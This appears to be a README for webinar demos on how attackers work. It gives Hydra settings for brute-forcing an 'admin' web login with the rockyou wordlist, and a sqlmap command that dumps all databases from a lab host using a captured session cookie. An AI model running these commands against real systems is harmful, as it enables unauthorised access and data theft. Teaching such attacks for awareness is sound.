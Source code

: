 # Inside the mind of a Hacker: DEMOS
This repository contains the Demos for the webinar "Inside the mind of a hacker"

## DEMO 1: Brute Force Attack

 - Software: Hydra + rockyou.txt
 - Options:
    - TARGET Single target <<Web Server IP>>
    - Port: 80
    - Protocol: http-post-form
    - Username: admin
    - Password List: /usr/share/wordlists/rockyou.txt
    - http url: /login:username=^USER^&password=^PASS^:again

## DEMO 2: SQL injection

 - Software: SQLMap
 - Command Line:

```sqlmap -u "http://victima.local/invoices?Description=Invoice+1" --dump-all --batch --headers="cookie:session=XXX"```
where **XXX** is the session cookie value retreived from the browser.